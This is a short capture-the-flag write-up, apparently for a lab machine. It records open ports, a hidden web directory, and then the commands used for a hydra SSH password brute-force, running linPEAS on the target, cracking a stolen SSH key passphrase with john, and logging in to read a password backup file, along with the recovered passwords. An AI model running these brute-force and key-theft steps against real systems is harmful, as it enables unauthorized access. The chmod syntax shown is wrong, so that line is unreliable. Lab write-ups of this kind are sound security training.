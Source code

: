 # BASIC INFO

```
export IP=10.10.60.20

open port:
	22/tcp OpenSSH 7.2p2 Ubuntu
	80/tcp Apache httpd 2.4.18
	139/tcp netbios-ssn Samba smbd 3.X -4.X
	445/tcp netbios-ssn Samba smbd 4.3.11-Ubuntu

```

# DIRBUSTER


> hidden dir on http:
>> /development


# CREDENTIALS


> user found:
>> kay
>> jan

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.174.22

```
> password found:
>> jan: armando

# ENUMERATION

```
scp /opt/linPeas/linPeas.sh jan@10.10.60.20:/dev/shm
./linPeas | tee linlog.txt

```

> id_rsa found in /home/kay/.ssh/id_rsa
> download with scp

# BRUTE FORCE ID_RSA


> id_rsa downloaded is protected by password

```
/usr/share/john/ssh2john.py id_rsa > id_rsa_crack
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt

```
>> password found: beeswax

# SSH INTO MACHINE WITH USER KAY

```
chmod id_rsa 600				
ssh -i id_rsa kay@10.10.60.20
cat pass.bak

```
>> ssh will only use file that is only readable by root (-rw-------)
>> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
